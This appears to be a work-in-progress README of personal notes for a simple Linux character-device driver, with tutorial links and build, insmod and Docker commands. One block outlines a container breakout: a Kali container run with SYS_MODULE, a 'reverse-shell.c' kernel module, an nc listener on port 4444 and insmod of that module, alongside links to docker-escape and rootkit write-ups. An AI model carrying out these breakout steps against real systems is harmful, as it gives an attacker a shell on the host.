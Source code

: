 # c_kdev_simple_example
c_kdev_simple_example

IN PROGRESS...

/*

https://github.com/alvmiller/cpp_helloworld_docker_naive_example
https://github.com/alvmiller/cpp_client_server_one_docker_example
https://github.com/alvmiller/cpp_client_server_multi_docker_example

https://github.com/alvmiller/hello_drv
https://github.com/alvmiller/hello_module
https://github.com/alvmiller/cpp_client_server_one_docker_example

https://embetronicx.com/tutorials/linux/device-drivers/linux-device-driver-tutorial-programming/
https://olegkutkov.me/2018/03/14/simple-linux-character-device-driver/
https://embetronicx.com/tutorials/linux/device-drivers/ioctl-tutorial-in-linux/
https://stackoverflow.com/questions/22632713/how-to-write-a-simple-linux-device-driver
https://www.apriorit.com/dev-blog/195-simple-driver-for-linux-os
https://embetronicx.com/tutorials/linux/device-drivers/device-file-creation-for-character-drivers/
https://jvgd.medium.com/how-to-write-a-device-driver-76d0584a4be3
https://www.acmesystems.it/compile_a_device_driver
https://github.com/Techogenius/Linux-device-driver-code/tree/master
https://faun.pub/building-the-simple-kernel-module-from-linux-device-drivers-on-arch-linux-9a8374a502a3
https://devarea.com/linux-kernel-development-and-writing-a-simple-kernel-module/
https://blog.sourcerer.io/writing-a-simple-linux-kernel-module-d9dc3762c234
https://www.oreilly.com/library/view/linux-device-drivers/0596005903/ch02.html

https://www.kernel.org/doc/html/v4.10/process/coding-style.html
https://kworkflow.org/tutorials/codestyle.html

https://gist.github.com/brenns10/65d1ee6bb8419f96d2ae693eb7a66cc0
https://olegkutkov.me/2018/03/14/simple-linux-character-device-driver/
https://collaborationbetterstheworld.com/insights/from-novice-to-expert-building-robust-linux-character-device-drivers
https://gist.github.com/itrobotics/063aea3c72d1f7d7fb94
https://linux-kernel-labs.github.io/refs/heads/master/labs/device_drivers.html
https://embetronicx.com/tutorials/linux/device-drivers/device-file-creation-for-character-drivers/
https://flusp.ime.usp.br/kernel/char-drivers-intro/
https://olegkutkov.me/2018/03/14/simple-linux-character-device-driver/
https://chrizog.com/linux-device-driver-tutorial-ultrasonic-sensor-2

https://embetronicx.com/tutorials/linux/device-drivers/ioctl-tutorial-in-linux/
https://github.com/pokitoz/ioctl_driver
https://linux.die.net/lkmpg/x892.html
https://github.com/Tristaan/linux-driver-ioctl-example/blob/main/userspace.c
https://www.ibm.com/docs/en/zos/2.4.0?topic=functions-ioctl-control-device

https://embetronicx.com/tutorials/linux/device-drivers/sending-signal-from-linux-device-driver-to-user-space/
https://embetronicx.com/tutorials/linux/device-drivers/linux-device-driver-tutorial-part-13-interrupt-example-program-in-linux-kernel/
https://www.c-pointers.com/LinuxDeviceDriver/basic_ldd/chapter2_kthreads/kthread_signal/kthread_signal.html
https://www.oreilly.com/library/view/linux-device-drivers/0596005903/ch10.html

https://embetronicx.com/tutorials/linux/device-drivers/linux-device-drivers-tutorial-kernel-thread/
https://girishjoshi.io/post/creating-linux-kernel-threads/
https://cylab.be/blog/347/linux-kernel-threads-and-processes-management-task-struct
https://www.linuxtoday.com/blog/kernel-threads/
https://github.com/muratdemirtas/Linux-Kernel-Examples/blob/master/kernel-threads.c
https://embitude.in/index.php/2021/05/29/kernel-threads/
https://www.ibm.com/docs/en/aix/7.2.0?topic=environment-understanding-kernel-threads

https://stackoverflow.com/questions/62455239/making-building-a-kernel-module-inside-a-docker-container
https://projectatomic.io/blog/2018/06/building-kernel-modules-with-podman/
https://www.baeldung.com/linux/docker-container-kernel-modules
https://github.com/djs55/docker-desktop-example-kernel-module
https://mgalgs.io/2021/03/23/how-to-build-a-custom-linux-kernel-for-qemu-using-docker.html
https://xcellerator.github.io/posts/docker_escape/
https://github.com/xcellerator/linux_kernel_hacking/tree/079d97b8e0b25e437ea4d5aa2fa4e85feff67583
https://iximiuz.com/en/posts/from-docker-container-to-bootable-linux-disk-image/
https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd
https://stackoverflow.com/questions/33013539/docker-loading-kernel-modules
https://www.rancher.com/docs/os/v1.2/en/configuration/kernel-modules-kernel-headers/
https://www.reddit.com/r/LiveOverflow/comments/ugbjvf/unable_to_execute_insmod_on_docker_container/
https://medium.com/@xUr00U/docker-container-breakout-part-1-d364fede4209


https://askubuntu.com/questions/1500017/ubuntu-22-04-default-gcc-version-does-not-match-version-that-built-latest-defaul
https://stackoverflow.com/questions/16360689/invalid-parameters-error-when-trying-to-insert-module-that-accesses-exported-s
https://askubuntu.com/questions/1150155/unknown-symbol-in-module-but-what-symbol
https://stackoverflow.com/questions/16360689/invalid-parameters-error-when-trying-to-insert-module-that-accesses-exported-s
https://discussion.fedoraproject.org/t/insmod-permission-error-when-being-ran-from-systemd-service/74145/4
https://stackoverflow.com/questions/67525731/error-unknown-symbol-copy-to-user-during-module-load
https://slavamoskvin.com/finding-bugs-in-kernel.-part-1-crashing-a-vulnerable-driver-with-syzkaller/
https://community.intel.com/t5/Nios-V-II-Embedded-Design-Suite/MODPOST-copy-from-user-module-compilation-issue/td-p/73584




sudo docker run -it --privileged --hostname docker ubuntu

sudo docker run -it --privileged --hostname docker --mount "type=bind,src=$PWD,dst=/root" ubuntu

sudo docker run -it --privileged --hostname docker ubuntu
exit
sudo docker run --rm -it --privileged example:1 bash
cat /proc/kallsyms | grep copy_to_user
--cap-add SYS_MODULE
--cap-add=ALL

sudo apt install --reinstall gcc-12
sudo apt install libmodule-info-perl


sudo docker pull docker.io/kalilinux/kali-rolling
sudo docker image ls
  kali: 729006db3366
sudo docker run --cap-add SYS_MODULE -it --name breakout  729006db3366 /bin/bash
apt update -y && apt install \
	gcc -y && apt install nano -y && apt-get install libcap2-bin -y && \
	apt install make -y && apt install net-tools -y 
capsh --print
  cap_sys_module
nano reverse-shell.c
  code
ifconfig
apt-get install linux-headers-$(uname -r)
find / -name kmod.h 2>/dev/null
nano Makefile
  code
make
nc -nlvp 4444
insmod reverse-shell.ko


******************

https://xcellerator.github.io/posts/docker_escape/
https://github.com/xcellerator/linux_kernel_hacking/tree/079d97b8e0b25e437ea4d5aa2fa4e85feff67583/3_RootkitTechniques/3.8_privileged_container_escaping
https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd
https://www.reddit.com/r/LiveOverflow/comments/ugbjvf/unable_to_execute_insmod_on_docker_container/
https://medium.com/@xUr00U/docker-container-breakout-part-1-d364fede4209


sudo apt-get install \
     gcc make build-essential libncurses-dev bison flex libssl-dev libelf-dev dwarves \
     linux-headers-`uname -r`
chmod +x script.sh
gcc -o client client.c
make
modinfo example_dev.ko
lsmod | grep example_dev
sudo insmod ./example_dev.ko
sudo dmesg
lsmod | grep example_dev
sudo ./client
sudo rmmod example_dev
lsmod | grep example_dev
make test

sudo su
echo Test0 >/dev/example_dev
cat /dev/example_dev
exit

From Host:
sudo ./script_docker.sh

sudo apt update && sudo apt upgrade -y
sudo apt install -y ca-certificates curl gnupg
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt update
sudo apt install -y docker-ce docker-ce-cli containerd.io
sudo usermod -aG docker $USER
sudo curl -L "https://github.com/docker/compose/releases/download/$(curl -s https://api.github.com/repos/docker/compose/releases/latest | grep 'tag_name' | cut -d'"' -f4)/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
docker-compose --version
sudo systemctl enable docker

sudo docker build . -t example:1
sudo docker run --rm -it --cap-add SYS_MODULE --privileged example:1

******************

*/
